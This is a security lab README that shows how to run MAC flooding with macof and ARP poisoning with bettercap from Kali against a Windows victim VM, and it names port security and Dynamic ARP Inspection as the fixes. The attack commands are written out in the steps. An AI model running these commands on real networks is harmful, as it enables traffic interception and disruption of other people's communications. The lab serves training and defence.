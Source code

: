 # Datalink-Layer-Attacks-LAB
Cybersecurity attacks LABs (eCIR Prep)
# 🧠 Network Attacks Lab – MAC Flooding & ARP Poisoning (Kali Linux)

## 📌 Lab Overview

This repository contains two mini labs:

1. **MAC Flooding Attack** using `macof` to overflow switch CAM tables.
2. **ARP Poisoning Attack** using `bettercap` to intercept traffic between victim and gateway.

---

## 🛠️ Tools Used

- Kali Linux (Attacker)
- Windows 10 (Victim)
- macof (dsniff)
- bettercap
- Wireshark
- VMware Workstation (Dual NIC Setup - NAT + Host-Only)

---

## 🧪 Lab 1: MAC Flooding

### 🔧 Topology

```
[ Kali Linux ] -- Host-Only Network -- [ Windows Victim ]
```

### 🚀 Steps

1. Configure both VMs with:
   - Adapter 1: NAT
   - Adapter 2: Host-Only

2. Run MAC flooding from Kali:
   ```bash
   sudo macof -i eth1
   ```

3. Capture traffic in Wireshark using:
   ```wireshark
   !(eth.src == YOUR_MAC || eth.dst == YOUR_MAC)
   ```

4. Success when packets not destined for attacker are visible.
---

 💡 Solution >> Enable Port Security  + Reserve MAC Address of Netowrk's PCs on the Switch Table
---


## 🧪 Lab 2: ARP Poisoning

### 🔧 Topology

```
[ Kali Linux ] -- Host-Only Network -- [ Windows Victim ] -- Gateway
```

### 🚀 Steps

1. Identify victim and gateway IPs:
   ```bash
   net.probe on
   net.show
   ```

2. Set target in bettercap:
   ```bash
   set arp.spoof.targets [victim_ip]
   arp.spoof on
   net.sniff on
   ```

3. Success when sniffed traffic includes victim-gateway communication.

---

💡 Solution >> Enable Dynamic ARP Inspection on the switch (DAI)
---

## 📬 Author

**Adham Hani**  
Security Enthusiast | SOC Trainee | DFIR Student

---

## 🔒 Disclaimer

> These labs are for **educational purposes only**. Do not perform attacks on unauthorized networks.
